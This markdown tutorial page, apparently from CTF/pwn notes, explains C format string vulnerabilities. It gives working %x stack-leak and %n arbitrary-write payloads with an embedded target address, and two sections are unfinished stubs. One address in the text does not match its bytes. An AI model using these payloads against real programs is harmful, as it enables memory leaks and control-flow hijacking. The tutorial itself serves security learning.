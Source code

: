 # Format string

 Format string exploit vulnerabilities in programs by abusing the '%x' power, reading and writing int the stack with printf() and sprintf() functions. It can leak sensitive information and even take control of the function.

### Table of Content

- [Before Exploit](#before-exploit)
- [Read the stack](#read-the-stack)
- [OverWrite data](#overwrite-data)
- [write complex value](#write-complex-value)
- [Code execution redirect](#code-execution-redirect)
- [Documentation](#docum)

## Before exploit

To run this exploit you need find in the code a printf function family, without quote.

Example: ```printf(user_buffer);```

instead of ```printf("%s", user_buffer)```

## Read the stack 

imagine this code:

```c
  char local_20c [520];

  fgets(local_20c,0x200,stdin);
  printf(local_20c);
```

If you don't provide arg, and if you pass for example %x to prinf, it will read and print hexa from the next address on the stack.

You can print the entire stack. And read data.

![img](/pwn/img/error_printf.svg)
[website docu](https://axcheron.github.io/exploit-101-format-strings/)

## OverWrite Data 

You can overwrite data with printf and `%n`.

From the man: `The number of characters already written is stored in the integer pointed to by the argument of type int *. No argument is converted.`

```c
printf("AAAA%n", (int)a);
```

Will write, 4 in a.

4 because, it takes the value of 'AAAA' which is 4 bytes.

### OverWrite data with pointer to it

#### theory

When call to printf(), if there is no argument, you can try find through the stack, the pointer you want to overwrite.

```c
char *overwrite = "AAAA%34$n";
printf(overwrite);
```

Gonna overwrite 4 in the 4th address in the stack.

But if you don't know where is the pointer, or maybe it isn't on the stack, you can write in the buffer the address you wan't overwrite, and %n to exact addres of the start of the buffer.

#### Exploit

- find the start of the buffer:

```c
char *overwrite = "AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.";
printf(overwrite);

AAAA00000200.f7e26620.00000000.41414141.78383025.3830252e.30252e78.252e7838.2e783830.78383025.3830252e.30252e78.252e7838.
```

By printing the stack, we can see that the pointer to the buffer is a the 4th address in the stack. so if we write in the buffer an address, and point to it with $x we can overwrite data int it with $n.

```c
char *overwrite = "\x8c\x98\x04\x08%4$n";
printf(overwrite);
```

So this overwrite 4 at the address 0x08049888c.

If you want to print a special value inside the pointer, you can give it a padding using this ```%<size>x```

```c
char *overwrite = "\x8c\x98\x04\x08%60x%4$n";
printf(overwrite);
```

This will print 60 byte + 4 (address) into pointer.

## Write complex value

*section need to be write*

## Code execution redirect

*section need to be write*
 
### Docum

- [Insane Tuto](https://axcheron.github.io/exploit-101-format-strings/)

---

[**:arrow_right_hook: Back PWN**](/pwn/pwn.md)